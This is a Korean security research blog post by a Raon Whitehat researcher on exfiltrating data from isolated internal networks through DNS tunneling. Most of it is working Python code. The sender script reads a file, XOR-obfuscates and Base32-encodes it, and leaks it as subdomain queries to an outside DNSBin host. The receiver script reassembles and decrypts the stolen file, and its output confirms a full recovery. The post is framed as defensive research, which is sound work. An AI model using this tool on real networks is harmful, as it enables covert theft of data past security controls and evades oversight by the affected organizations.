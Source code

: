 ```yaml
---
layout: post
title:  "DNS Tunneling을 통한 정보 유출"
author: "qbeom"
comments: true
tags: [research, network]
---
```



> **2020.05**
라온화이트햇 핵심연구팀 최규범
kbchoi@raoncorp.com

---

- **목차**

    ---

    ---

### 개요

인터넷 접속이 안되는 내부망 환경에서, 다양한 보안 솔루션이 설치되었어도,
과연, 정보 유출의 위협으로 부터 안전할까요?

DNS Tunneling 기법을 활용하여 위와 같은 환경에서 정보 유출이 가능한지 테스트해보았습니다.

### DNS Tunneling

DNS 프로토콜을 사용하여 임의 데이터를 송수신하는 기술을 DNS Tunneling이라고 합니다.

실제로 많은 악성코드가 원격 명령지 서버와 통신할 때 DNS Tunneling을 악용하고 있습니다.

![/assets/55daf833-d832-4e6a-8182-f78cb29bbda9/0b681e3d-c7f7-468a-94b5-a69801ddf46b.png](/assets/55daf833-d832-4e6a-8182-f78cb29bbda9/0b681e3d-c7f7-468a-94b5-a69801ddf46b.png)

그 이유는 내부망 환경 또는 특정 Outbound 포트만 허용되는 환경에서도, DNS 트래픽 송신이 허용되는 경우가 빈번하기 때문입니다.

![/assets/8d3b6cad-8833-4398-9c11-2499aa7ba03b/fa591cf7-266f-40c6-b901-d813de4ecb95.png](/assets/8d3b6cad-8833-4398-9c11-2499aa7ba03b/fa591cf7-266f-40c6-b901-d813de4ecb95.png)

공격자가 설치한 임의 DNS 서버의 특정 서브 도메인을 조회합니다.
해당 DNS 패킷에서 서브 도메인 정보('leakeddata')만 구별하여 정보를 획득할 수 있습니다.

### 유출 테스트

DNS Tunneling 구현을 위해서는 DNS 서버 구축이 필요합니다.

- Python을 사용하여 DNS Tunneling 구현

       [https://github.com/ialexryan/Burrow-Server](https://github.com/ialexryan/Burrow-Server)

Python을 사용하여 구축할 수 있는 Github 페이지를 확인하였으나, 여러 추가 작업이 필요합니다.

![/assets/ca576997-b4d8-4c2d-8a2f-3f069cbeb5fc/924c39e7-e437-4cfe-9ed2-fa852a6f5294.png](/assets/ca576997-b4d8-4c2d-8a2f-3f069cbeb5fc/924c39e7-e437-4cfe-9ed2-fa852a6f5294.png)

쉬운 방법을 찾던 중, CTF에서도 활용되는 DNSBin(http://dnsbin.zhack.ca/) 페이지를 발견했습니다.

![/assets/a4c1412c-c001-475b-b52f-c8cd7303d8a2/82361422-e8d7-49d1-b0f7-5151fa0faa9d.png](/assets/a4c1412c-c001-475b-b52f-c8cd7303d8a2/82361422-e8d7-49d1-b0f7-5151fa0faa9d.png)

![/assets/05830fe9-e5d6-4dc1-b41b-ca518de63374/4b25fd46-25c7-40b6-90a5-a10cfc883d74.png](/assets/05830fe9-e5d6-4dc1-b41b-ca518de63374/4b25fd46-25c7-40b6-90a5-a10cfc883d74.png)

식별 가능한 특정 서브 도메인이 주어지고, 해당 도메인 앞에 임의 데이터를 붙여서 보내면
서버에서 데이터를 가져옵니다.

도메인 이름 규칙 상 대소문자 구분이 없지만, 해당 사이트에서는 이를 구분하여 보여줍니다.

### 테스트 코드(송신)

아래 내용을 통해 송신 테스트 코드를 작성하였습니다.

- 도메인 이름 규칙 상 허용되는 63개 문자 중, 하이픈(-)을 제외한 62개 문자로 구성
- Raw Data를 보내기 위해서 인코딩이 필요하므로, 간단히 쓸 수 있는 Base32를 사용
(Base62를 사용하고 싶으나, 정수형으로 인자를 받기 때문에 복잡하였습니다.)
- Dnsbin에서 중복 데이터를 표시하지 않으므로, 중복을 피하기 위해 간단한 암호화 필요
- 도메인은 최대 253 글자, 라벨은 63글자로 구성되므로 알맞게  잘라서 송신

```python
import socket
import random
import time
import base64

def rand_bytes(count):
    return bytearray(random.getrandbits(8) for _ in range(count))

f = open("./test.dat", "rb")
data = f.read()
f.close()

size = len(data)
print("Data Size(Org) : ", size)

seed = random.randint(0,100000)
random.seed(seed)

enc = bytearray(data)
rnd = rand_bytes(size)
for i in range(size):
    enc[i] = data[i] ^ rnd[i]

enc = base64.b32encode(enc)
enc = enc.replace(b"=", b"0") # Change pad
size_enc = len(enc)
print("Data Size(Enc) : ", size_enc)

base_domain = '.9b14918384f099f6b54a.d.zhack.ca'
remain = 253 - len(base_domain) # Max Length 253
remain -= int(remain/63) # "."
t_start = time.time()

send_data = "S-%d.O-%d.E-%d" % (seed, size, size_enc) #Send seed, size of data
socket.gethostbyname(send_data + base_domain)

for i in range(0, size_enc, remain):
    enc_part = enc[i:i+remain]
    if len(enc_part) > 63:
        send_data = ""
        for j in range(0, remain, 63):
            if j != 0:
                send_data += "."
            send_data += enc_part[j:j+63].decode('utf-8')
    else:
        send_data = enc_part.decode('utf-8')

    socket.gethostbyname(send_data + base_domain)

t = time.time() - t_start
print("Elapsed Time : ", t, "Secs")
print("Speed(Org) : ", size / t, "B/sec") 
print("Speed(Enc) : ", size_enc / t, "B/sec")
```

```python
Data Size(Org) :  21822
Data Size(Enc) :  34920
Elapsed Time :  37.387837171554565 Secs
Speed(Org) :  583.6657493684237 B/sec
Speed(Enc) :  933.9935829871392 B/sec
>>>
```

21.3KB의 파일을 테스트하였고, 약 0.5KB/s 속도로 전송되었습니다.

결과는 네트워크 환경에 따라 다를 수 있다.

### 테스트 코드(수신)

![/assets/21cacb46-3992-4c22-a4da-da78bb38ed70/8f4736de-b36e-44bf-abad-0cd87c3445d4.png](/assets/21cacb46-3992-4c22-a4da-da78bb38ed70/8f4736de-b36e-44bf-abad-0cd87c3445d4.png)

DNS를 요청하는 과정에서 중복된 값이 전송될 수 있습니다. 

이를 처리해주고 초기에 전송한 Seed를 통해 복호화하는 코드를 작성하였습니다.

```python
import random
import base64

def rand_bytes(count):
    return bytearray(random.getrandbits(8) for _ in range(count))

f = open("./result.dat", "rb")
data = f.read()
f.close()

data = data.split(b"\r\n")
info = data[0].split(b".")

seed, size, size_enc = int(info[0][2:]), int(info[1][2:]), int(info[2][2:])
print("Seed : ", seed)
print("Data Size(Org) : ", size)
print("Data Size(Enc) : ", size_enc)

random.seed(seed)
rnd = rand_bytes(size)

enc = b""
for i in range(1,len(data)):
    if data[i] == data[i-1]:
        continue
    enc += data[i]
enc = enc.replace(b".", b"")
enc = enc.replace(b"0", b"=")
dec = base64.b32decode(enc)

print("Data Size(Enc-Recv) : ", len(enc))
print("Data Size(Dec-Recv) : ", len(dec))

dec = bytearray(dec)
for i in range(size):
    dec[i] ^= rnd[i]

f = open("./test.dat", "rb")
org = f.read()
f.close()
print("Compare Result :", org == dec)
```

```python
Seed :  70953
Data Size(Org) :  21822
Data Size(Enc) :  34920
Data Size(Enc-Recv) :  34920
Data Size(Dec-Recv) :  21822
Compare Result : True
>>>
```

결과 파일(result.dat)은 Dnsbin에서 출력된 텍스트를 저장한 파일입니다.

전송된 데이터가 정상적으로 복호화된 것을 확인할 수 있습니다.

### 참조

- 도메인 이름 규칙([https://www.joinc.co.kr/w/man/12/DNS](https://www.joinc.co.kr/w/man/12/DNS))